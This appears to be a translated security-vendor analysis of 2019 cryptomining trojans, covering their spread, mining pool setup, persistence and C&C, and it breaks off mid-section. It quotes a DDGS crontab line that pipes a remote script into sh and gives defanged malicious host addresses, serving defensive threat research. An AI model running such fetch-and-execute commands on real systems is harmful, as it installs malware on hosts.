# 学习加密货币挖矿木马的战略战术

> 原文：<https://medium.datadriveninvestor.com/learn-the-strategies-and-tactics-of-cryptocurrency-mining-trojans-69b2eda80c5b?source=collection_archive---------2----------------------->

*作者郭微博，外号桑多。*

2019 年，[比特币](https://bitcoin.org/en/?spm=a2c41.13656330.0.0)等加密货币的价格出现了期待已久的大幅上涨，从 3000 美元的低点上涨到 7 月份的 14000 美元，涨幅为 300%。这些货币中的大量资金吸引了更多黑市[网络犯罪](https://www.fbi.gov/investigate/cyber?spm=a2c41.13656330.0.0)团伙加入恶意加密货币矿工联盟。通过监控云上的[僵尸网络](https://us.norton.com/internetsecurity-malware-what-is-a-botnet.html?spm=a2c41.13656330.0.0)家族，阿里云安全团队发现，恶意加密货币挖掘已经成为黑市网络犯罪集团的主要盈利方式。截至 2019 年 8 月底，共侦破传播加密货币挖矿[木马](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html?spm=a2c41.13656330.0.0))大型网络犯罪集团 58 个。

在本文中，我们将从宏观的角度来看一些最常见的加密货币挖掘木马技术和发展趋势，为企业提供安全保护见解。

 [## 科罗拉多州正在成为亲加密法规|数据驱动投资者的领导者

### 科罗拉多州已经成为区块链公司的滋生地和避风港。新任命的…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2019/03/22/colorado-is-emerging-as-a-leader-in-pro-crypto-regulations/) 

下图和下表显示了前 10 个活跃的特洛伊木马家族及其特征，其中特洛伊木马的活动通过受害者的累积数量来衡量。



# 一些核心要点

*   如今，木马以蠕虫的形式传播，漏洞组合的利用正在成为一种趋势，而 [N 日漏洞](https://www.darkreading.com/vulnerabilities---threats/the-overlooked-problem-of-n-day-vulnerabilities/a/d-id/1331348)的利用正在加速。这些趋势令人担忧。它们表明加密货币挖矿木马的传播相当普遍。如果企业的信息系统存在任何可被利用的漏洞，企业的内部网络就可能受到攻击。在此类攻击中，加密货币挖掘会迅速占用 CPU 资源，从而严重影响受影响企业信息系统的运行。因此，及时的漏洞管理和更强的安全防御能力对任何企业都很重要。
*   木马的持久化技术应用广泛， [Rootkit](https://enterprise.comodo.com/rootkit-definition/) 和[无文件攻击](https://www.csoonline.com/article/3227046/what-is-a-fileless-attack-how-hackers-invade-systems-without-installing-software.html)技术成为趋势。
    在入侵你的系统后，加密货币挖矿木马想要长期稳定的挖矿加密货币。在技术上，Rootkit 和无文件攻击技术用于实现长期和隐蔽的操作。普通 O & M 人员很难在系统被感染时清除顽固木马。因此，企业通常需要额外的专业知识来应对这种安全紧急情况。
*   特洛伊木马倾向于跨平台传播。
    [Go 语言](https://golang.org/)天生具有跨平台编译的能力。这使得黑市网络犯罪集团可以跨多个平台植入木马。另外，新型恶意软件使用 Go 也是一种趋势。10 大活跃加密货币挖矿木马中有 6 个出现在 2019 年，这 6 个中有 5 个是基于 Go 语言实现的。其中，MinerGuard 和 Kworkerds 已经可以在 Linux 和 Windows 上传播。

# 磨利工具:攻击技术

# 网络范围的漏洞扫描和分发

1.通过攻击基于一个或多个 IP 地址的全网络漏洞来分发特洛伊木马。

这种分配方法是原始的。木马无法横向高效传播，但可以被网络防御轻松拦截。根据我们的监测结果，只有少部分木马是通过这种方式传播的。比如 8220 Miner 利用多个固定海外 IP 地址发动持续性攻击。8220 Miner 定期更改 IP 地址，但不频繁。ddsMiner 通过使用 SQL Server 入侵计算机。当有效负载受到攻击时，ddsMiner 会下载一个名为 dds.exe 的 PE 文件(例如，http://113[。] 69[.] 206[.]219:4523/dds.exe)。这个矿工组织每天至少使用一个新的 IP 地址发动网络攻击。这些攻击每天持续几个小时。该 IP 地址也是当天托管恶意文件的位置。

2.将特洛伊木马作为蠕虫分发

基于蠕虫的加密货币挖掘僵尸网络有一个攻击模块，可以扫描和感染网络上的其他服务器。通过这种方式传播，特洛伊木马呈指数级增长，使得追踪和防御更加困难。在排名前 10 的木马中，2019 年出现的加密货币挖矿僵尸网络以蠕虫的形式分布。它们都在很短的时间内(仅几天)迅速扩张，这使它们进入了前 10 名。

# 从单一漏洞利用到组合漏洞的横向传播

早期，加密货币挖矿木马通过利用固定漏洞在公网传播。传播缓慢，规模有限。利用漏洞组合使得加密货币挖掘木马能够在内部网络中横向传播。攻击模块集成了 web 服务漏洞、暴力破解、数据库漏洞等常见攻击方法。“聪明的”加密货币挖掘木马创建者可以通过对内部网络和公共网络使用不同的攻击策略来更有效地传播木马。例如，在内部网络中，优先利用 WannaCrypt 漏洞、ipc$蛮力攻击、RDP 蛮力攻击传播 Windows 上的 Bulehero 加密货币挖矿木马。在公共网络中，这些特洛伊木马会优先利用 web 服务漏洞。Linux 上的 Kerberods 加密货币挖矿木马通过优先使用本地 SSH 密钥和内部网络的 SSH 暴力攻击进行传播。使用这种高效策略，企业的内部网络通常在几分钟内就被完全占用。

# 快速利用 N 天漏洞

互联网上普遍存在且尚未修复的常见漏洞通常会成为加密货币挖掘僵尸网络争夺的“一块大理石肉”。爆发后，N 天漏洞无法在短时间内有效修复。因此，“嗅觉灵敏”的黑市网络犯罪集团将其加入加密货币挖矿木马的攻击库。根据我们的观察，留给 O&M 人员修复一个 N 天漏洞的漏洞窗口正在变短。例如， [Jboss 反序列化漏洞](https://trustfoundry.net/exploiting-java-deserialization-on-jboss/)在 2017 年 5 月首次被检测到，然后在当年年底被 JbossMiner 广泛利用。 [ThinkPhp RCE 漏洞](https://www.tenable.com/blog/thinkphp-remote-code-execution-vulnerability-used-to-deploy-variety-of-malware-cve-2018-20062)出现在 2018 年 12 月，然后在十几天后被 BuleHero 网络犯罪集团利用。2019 年 4 月 8 日发生了对合流 RCE 漏洞的概念验证利用。仅仅两天后的 4 月 10 日，Kererods 蠕虫就开始利用这个漏洞大范围传播。这再次对云平台和用户的快速响应能力提出了严峻挑战。

# 通往财富之路:获利途径

# 采矿池配置方法

将加密货币挖掘木马植入开源的加密货币挖掘程序中进行挖掘。当程序启动时，加密货币挖掘参数通过命令行传入。这种方法比较原始，木马无法修改其配置参数。更常见的是，加密货币挖掘木马通过使用配置文件来传递，加密货币挖掘参数由调度任务来控制。这两种方法都容易被发现。一些黑市网络犯罪集团对开源的挖矿程序进行二次开发，将加密货币挖矿设备参数硬编码到恶意程序中，并进行外壳检测来隐藏挖矿。

*   通过命令行配置加密货币挖掘程序。



*   使用配置文件传送特洛伊木马。

加密货币挖掘设备 MinerGuard 的配置文件截图



*   配置加密货币挖掘软件的硬编码功能。

DDGS 硬编码采矿池和钱包地址



# 加密货币挖掘方法:公共挖掘池和挖掘池代理

1.公共采矿池

使用[匿名公共挖掘池](https://thenextweb.com/hardfork/2019/01/15/unknown-bitcoin-miners-cryptocurrency/)是恶意加密货币挖掘最常见的方法。这很简单，但也容易被跟踪，因为在配置过程中需要一个独立的钱包地址。此外，它不能管理 bot 采矿。

*   下图显示了如何查询公矿池中 8220 Miner 的钱包地址和计算能力。目前，从这个地址已经开采了 15.5 枚[莫内罗硬币](https://www.coinbase.com/price/monero)。基于此，可以估算出这个加密货币挖矿僵尸网络的规模。



2.挖掘池代理

一些加密货币挖掘僵尸网络有自己的挖掘池代理。矿池代理方便了加密货币的挖掘，可以随时根据奖励在高收益矿池和高收益矿加密货币之间切换。使用钱包地址无法跟踪此方法。

*   下图显示 masscanMiner 使用挖掘池代理进行挖掘。根据 cmdline 流程，可通过 28850 端口到达 121.42.151.137 的采矿池。此端口不是公共挖掘池的公共端口。登录帐户也是默认帐户。



# 其他盈利方法:利用 DDoS 和 Socks 代理

除了挖掘加密货币，一些黑市网络犯罪集团还通过其他方式将加密货币货币化，如使用 DDoS 和代理。比如下图，一个 sicMiner 的恶意样本运行了一个 python 脚本，这个脚本是 GitHub 上的开源 socks5 代理。代理在端口 7081 上运行。网络犯罪集团可能通过出售代理来获利。



# 生存还是毁灭:持久性技术

加密货币挖矿木马成功入侵目标操作系统后，需要长时间驻留在那里，持续稳定地生产加密货币。因此，在大多数情况下，会使用各种技术来防范 O&M 人员的安全检测和移除。

# 清除或卸载安全软件

从主机卸载安全软件是木马的常见操作。大多数加密货币挖掘攻击都以服务器为目标，因此黑市网络犯罪集团尤其面临云环境中的安全软件。下面展示了 Kworderds 蠕虫如何在 Windows 和 Linux 上卸载不同的安全软件程序。

*   Kworkerds 关闭反病毒软件。



*   Kworkerds 卸载安全工具，如 Server Guard。



# Rootkit 技术

1.通过定时或计划任务使恶意软件驻留

Linux 上的 Crontab 定时任务通常用于保存许多恶意软件。恶意软件不仅将自身写入用户的 crontab 文件，还会写入软件包中的 crontab 文件，例如/etc/cron.d。因此，恶意软件不太可能被检测到。在 Windows 上，类似的驻留方法是通过运行计划任务和修改注册表来实现的。下图显示了恶意的 DDGS 蠕虫是如何通过 Crontab 启动的。

*   DDGS 运行 Crond 调度任务启动恶意外壳:`/bin/sh -c curl -fsSL http://218[.] 248[.] 40[.]228:9999/i.sh?6 | sh`



2.预加载动态链接库

根据 Linux 上的动态链接库预加载机制，用户自定义的动态链接库在其他常规系统库之前被预加载。如果用户定义库中的函数与系统库中的函数同名，则用户定义库中的函数会覆盖系统库中的函数。通过预加载动态链接库，攻击者可以挂钩 libc 中的 readdir 等常见函数。当 ps 和 top 等 shell 命令试图读取/proc/目录以获取进程信息时，攻击者可以隐藏恶意软件。

*   如下图所示，8220 Miner 使用这种技术劫持 Linux 上的动态链接库配置文件/etc/ld.so.preload。



# 无文件攻击技术

在无文件攻击中，恶意软件不需要安装在磁盘上，因此伪装得很好，很难杀死。在加密货币挖掘僵尸网络中，通过调用各种工具(如 Windows 上的 WMI 命令行工具 wmic.exe)或脚本语言(如 PowerShell)提供的 API 来访问 Windows Management Instrumentation(WMI)，发起无文件攻击。下面显示了黑客如何使用 wmic.exe 以及 WannaMine 如何使用 PowerShell 发起无文件攻击。

*   黑客利用 wmic.exe 发动了一次无文件攻击。



*   WannaMine 的恶意进程利用 PowerShell 的隐藏和编码功能发起无文件攻击。



# 文件名或路径混淆

除了各种安全工具之外，还需要应对 O&M 人员的手动故障排除。在这种情况下，混淆文件名和路径也是一种常见的方式。例如，IBus 将恶意文件写入多个系统目录，并通过使用随机改变大小写等方法生成与隐藏目录中的文件相似的混淆文件名。

*   下图显示了由 IBus 生成的系统目录中的混淆目录。



*   下图显示了由 IBus 生成的模糊文件名。



# C&C 通信

在恶意加密货币挖掘过程中，不需要对机器人进行强有力的控制。因此，大多数加密货币挖矿木马没有完整的 C&C 模块。相反，他们经常使用配置文件和定时任务来修改 bot 配置和更新 bot 版本。在排名前 10 的加密货币挖掘木马中，只有 DDGS 和 IBus 具有完整的 C&C 特征。例如，DDGS 将 uMsg 序列化用于 C&C 通信。该功能允许 DDGS 发送攻击命令和更新版本配置。在今年 1 月的更新中，DDGS 甚至可以开始使用 P2P 来提供 C&C 控制 IP 地址。

*   在 DDGS 反序列化 C&C 命令

